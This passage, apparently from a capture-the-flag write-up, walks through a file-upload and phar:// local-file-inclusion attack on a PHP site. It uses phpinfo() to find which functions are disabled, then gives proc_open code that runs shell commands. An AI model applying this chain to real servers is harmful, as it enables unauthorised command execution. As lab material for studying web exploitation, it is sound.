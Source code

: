 I get this error because the magic byte of zip starts with PK. so lets check the uploaded directory weather it is uploaded or not →

![Untitled](UpDown/Untitled%206.png)

I can access this md5 generated folder name that contains my file so lets access it through LFI method.

![Untitled](UpDown/Untitled%207.png)

Now lets access through LFI .The `phar://` wrapper works with the format `phar://[archive path]/[file inside the archive]`. I tried different php function but didn’t got any output so I tried phpinfo() function and I got the output →

![Untitled](UpDown/Untitled%208.png)

Lets check the disable function on this `phpinfo()` file and lets use the non disabled functions for command execution .

![Untitled](UpDown/Untitled%209.png)

 

Now I have 2 more rest functions that can leads to command execution ⤵️ 

• **`proc_open`**: This function executes a command and opens file pointers for input/output. It can also return a resource that represents the process.

• **`backticks`**: This is an operator that is equivalent to **`shell_exec`**. It can be used to execute a command and assign the output to a variable, such as **`$output =`** ls -l``.

I used the `backticks` functions and got no output so I used another `proc_open` function for command execution →

 

```php
<?php
// Define a Linux command to execute
$command = "ls -l";

// Define the descriptor array for the subprocess
$descriptors = array(
  0 => array("pipe", "r"), // STDIN
  1 => array("pipe", "w"), // STDOUT
  2 => array("pipe", "w")  // STDERR
);

// Execute the command and get the process resource
$process = proc_open($command, $descriptors, $pipes);

// Read the output from the STDOUT pipe
$output = stream_get_contents($pipes[1]);

// Display the output
echo $output;

// Close all pipes and processes
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
?>
```
{: .nolineno}
{: .nolineno}
